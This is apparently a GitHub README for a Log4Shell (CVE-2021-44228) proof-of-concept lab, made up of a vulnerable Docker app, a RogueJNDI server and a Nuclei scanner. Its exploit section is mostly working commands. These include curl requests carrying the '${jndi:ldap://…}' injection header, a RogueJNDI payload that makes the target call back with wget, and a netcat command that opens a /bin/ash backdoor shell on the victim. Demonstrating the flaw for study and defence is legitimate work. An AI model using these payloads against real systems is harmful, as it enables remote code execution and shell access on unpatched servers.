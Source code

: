 # Log4Shell POC

Demonstrates the Log4Shell (CVE-2021-44228) vulnerability.
You can run a simple attack to demonstrate JNDI out of band (OOB) attack. But also more sophisticated attacks with your own code e.g. to open a backdoor using netcat (nc).

This repo consists for three parts:

1. Vulnerable App (Vulnerable-App)
2. JNDI Server (RogueJndi)
3. Vulnerability Scanner (Nuclei)

All three repos have their origin in separate upstream projects (see following sections for more details)

# Requirements

1. Java
2. Maven

## Install maven

### MacOS

```bash
brew install maven
```

# Setup

## Run the vulnerable app

```bash
docker build -f log4shell-vulnerable-app/Dockerfile -t vulnerable-app log4shell-vulnerable-app/.
docker run -p 8080:8080 -p 3001:3001 --name vulnerable-app --rm vulnerable-app
```

## Get your local ip address (MacOS)

```bash
# for ethernet
ipconfig getifaddr en0
# for wireless
ipconfig getifaddr en1

```

## Test app for vulnerability

Build the docker container

```bash
docker build -f nuclei/Dockerfile -t nuclei nuclei/.
```

Now let's test if the server will tell us its hostname. Replace "your-private-ip" with the ip of your vulnerable app docker container

```bash
docker run -it --rm --entrypoint bin/ash nuclei
nuclei -duc -t /root/nuclei-templates/cves/2021/CVE-2021-44228.yaml -u http://your-private-ip:8080
```

If the remote server is vulnerable to the log4shell bug, it will give you an output like following. The last element in the output (8dc4a6fbe91b) is the remote server's hostname.

```bash
$> nuclei -duc -t /root/nuclei-templates/cves/2021/CVE-2021-44228.yaml -u http://192.168.1.126:8080
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   2.6.0

                projectdiscovery.io

[WRN] Use with caution. You are responsible for your actions.
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[INF] Using Nuclei Engine 2.6.0 (latest)
[INF] Using Nuclei Templates 8.8.4 (latest)
[INF] Templates added in last update: 3030
[INF] Templates loaded for scan: 1
[INF] Using Interactsh Server: oast.live
[2022-02-06 19:12:58] [CVE-2021-44228] [http] [critical] http://192.168.1.126:8080/ [62.2.17.166,8dc4a6fbe91b.xapiversion.c801rcpc7q5s72ri0tr0ceyb5pyyyyyyr.oast.live,xapiversion,8dc4a6fbe91b]
```

# Exploit the server

Now let's run some command on the remote server.

The JNDI Server (RogueJNDI) will run a JNDI server (port 1389) and a http server (8000). The JNDI Server will serve exploit code to be executed on the vulnerable-app. The http server is a backcall server for receiving calls sent from the vulnerable app.

## Run the JNDI server

Start a new console and run the following commands. This will start two servers listening on separate ports.

1. LDAP Server, port 1389
2. Web Server, port 8000
   The web server will serve the code to execute. The LDAP server will tell the vulnerable app where to load the code to execute.

```bash
cd rogue-jndi
mvn compile package
java -jar target/RogueJndi-1.1.jar -c "wget http://your-private-ip:8000/callback/gugus"
```

```bash
java -jar target/RogueJndi-1.1.jar -c "wget http://192.168.1.126:8000/callback/gugus"
```

## Issue simple attack

Call the vulnerable app (on 127.0.0.1:8080) to load remote code from your jndi server (jndi:ldap://your-private-ip:1389). The code is referenced by the path (/o=reference).
Replace the code to be executed as you wish. You'll find it in the following file:
rogue-jndi/src/main/java/artsploit/ExportObject.java

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/o=reference}'
```

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.1.126:1389/o=reference}'
```

## Backdoor

Let's start a backdor using netcat (nc) on the vulnerable app server.

Restart the jndi server with the following command.

```bash
java -jar target/RogueJndi-1.1.jar -c "nc -vv -l -p 3001 -e /bin/ash"
```

Start the remote nc server on the vulnerable app

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/o=reference}'
```

Login with nc

```bash
nc -v localhost 3001
```

Run some commands

```
ls
uname -r
ls /app
```

# References

## Vulnerable app

https://github.com/christophetd/log4shell-vulnerable-app

## RogueJNDI

https://github.com/veracode-research/rogue-jndi.git

## Nuclei

https://github.com/projectdiscovery/nuclei

